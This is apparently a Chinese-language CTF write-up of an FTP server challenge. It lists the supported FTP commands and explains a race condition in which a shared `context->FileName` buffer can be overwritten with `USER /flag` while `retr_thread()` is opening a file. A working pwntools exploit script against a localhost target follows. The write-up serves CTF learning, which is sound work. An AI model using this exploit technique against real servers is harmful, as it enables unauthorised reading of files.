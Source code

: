- RNFR - 登入使用，rename from，設置目標檔案，不過預設權限不夠
- RNTO - 登入使用，rename to，設置新的名稱，不過預設權限不夠
- OPTS - optional，不支援其他功能
- MLSD - 登入使用，呼叫 thread `mlsd_thread()` 處理，感覺是列出目錄底下的檔案
- AUTH - 開啟 TLS
- PBSZ - 設置 block size
- PROT - 登入使用，設置 `context->DataProtectionLevel`
- EPSV - 與 PASV 相同
- HELP - help
- SITE - 支援 chmod

關於 FTP 的使用，可以參考該[文章](https://medium.com/@penril0326/%E7%B0%A1%E5%96%AE%E4%BB%8B%E7%B4%B9ftp-67bd4df922b2)，這邊大概介紹一下。FTP 作為簡單的檔案傳輸服務，分成主動模式 (active) 與被動模式 (passive)，而主動模式會使用到兩個 port，分別為 command port 與 data port， 前者開在 port 21，後者則是 port 20。Passive 則是讓 server 選一個沒有在使用的 port 作為 data port，因此在呼叫完 `PASV` 或是 `EPSV` 後會回傳 data port，需要再另外建一個連線來接收資料，而每個 data port 都只用於一次的傳輸。



而在呼叫一些 function 時，有可能會透過 `ftp_effective_path()` 來驗證與 normalize 目標目錄，並將最後的目錄名稱存在於 `context->FileName`，該變數實際上並非只儲存 filename，實際上被當作 client 的 temp buffer 來使用，所以許多命令的執行過程都會使用到此資料。

但問題就在於任何與 data 相關的命令，都會另外開一個 child thread 來做非同步處理，但是 `context->FileName` 作為目錄名稱，有可能在原本的 thread 被拿來做為其他命令的參數，導致影響到 child thread 執行的流程。

利用命令 `USER XXX` 可以穩定的控制 `context->FileName` 成 `XXX`，所以執行 `RETR hello.txt` 後，馬上執行命令 `USER /flag`，就能在 `retr_thread()` 開啟檔案時把檔案名稱改成 `/flag`，藉此讀到根目錄底下的 flag，同樣的如果不知道檔案名稱，也可以利用 `LIST YYY` 讀取目錄 `YYY` 的檔案屬性，exploit 如下：

```python
#!/usr/bin/python3

from pwn import *

r = remote('localhost', 2121)
r.newline = '\r\n'

r.recvline()
r.sendline('USER anonymous')
r.recvline()
r.sendline('PASS 1234')
r.recvline()
r.sendline('EPSV')
r.recvuntil('|||')
dp = int(r.recvuntil('|', drop=True))
info(f"data port: {dp}")
dr = remote('localhost', dp)

"""
r.sendline('LIST /')
r.recvline()
r.sendline('USER /')
r.recvline()
"""
flag_name = "flag.0063859a-9291-11ed-9d14-0242ac110003"

r.sendline('RETR hello.txt')
r.recvline()
r.sendline(f'USER /{flag_name}')
r.recvline()

print(dr.recv())
r.interactive()
```
